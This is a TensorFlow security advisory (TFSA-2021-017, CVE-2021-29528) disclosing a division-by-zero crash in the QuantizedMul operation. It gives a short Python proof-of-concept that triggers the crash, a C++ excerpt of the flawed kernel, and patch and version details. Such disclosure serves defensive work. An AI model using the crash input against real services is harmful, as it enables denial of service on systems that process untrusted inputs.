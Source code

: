 ## TFSA-2021-017: Division by 0 in `QuantizedMul`

### CVE Number
CVE-2021-29528

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedMul`:

```python
import tensorflow as tf

x = tf.zeros([4, 1], dtype=tf.quint8)
y = tf.constant([], dtype=tf.quint8)
min_x = tf.constant(0.0)
max_x = tf.constant(0.0010000000474974513)
min_y = tf.constant(0.0)
max_y = tf.constant(0.0010000000474974513)

tf.raw_ops.QuantizedMul(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/55900e961ed4a23b438392024912154a2c2f5e85/tensorflow/core/kernels/quantized_mul_op.cc#L188-L198) does a division by a quantity that is controlled by the caller:

```cc
template <class T, class Toutput>
void VectorTensorMultiply(const T* vector_data, int32 vector_offset,
                          int64 vector_num_elements, const T* tensor_data,
                          int32 tensor_offset, int64 tensor_num_elements,
                          Toutput* output) {
  for (int i = 0; i < tensor_num_elements; ++i) {
    const int64 vector_i = i % vector_num_elements;
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[a1b11d2fdd1e51bfe18bb1ede804f60abfa92da6](https://github.com/galeone/tensorflow/commit/a1b11d2fdd1e51bfe18bb1ede804f60abfa92da6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

